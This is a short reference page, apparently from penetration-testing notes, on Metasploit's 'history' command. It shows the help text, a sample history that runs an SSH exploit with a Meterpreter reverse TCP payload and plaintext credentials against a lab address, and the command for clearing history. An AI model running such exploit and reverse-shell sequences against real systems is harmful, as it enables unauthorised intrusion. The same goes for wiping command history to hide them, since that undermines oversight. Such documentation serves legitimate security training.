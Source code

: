 # 05 - History

Search Tag: #metasploit-framework #command-and-control

## 5.1 - Help Menu

```
msf > history -h
Usage: history [options]

Shows the command history.

If -n is not set, only the last 100 commands will be shown.
If -c is specified, the command history and history file will be cleared.
Start commands with a space to avoid saving them to history.

OPTIONS:

    -a, --all-commands  Show all commands in history.
    -c, --clear         Clear command history and history file.
    -h, --help          Help banner.
    -n <num>            Show the last n commands.
```

## 5.2 - Show Metasploit History Commands

```
msf > history
102  use exploit/multi/ssh/sshexec
103  options
104  show targets
105  set target 1
106  set payload linux/x64/meterpreter/reverse_tcp
107  options
108  set lport 53
109  run username=fox password=pass1234 rhosts=10.0.2.15
..[snip]..
```

## 5.3 - Clear Metasploit History Commands

```
msf > history -c
```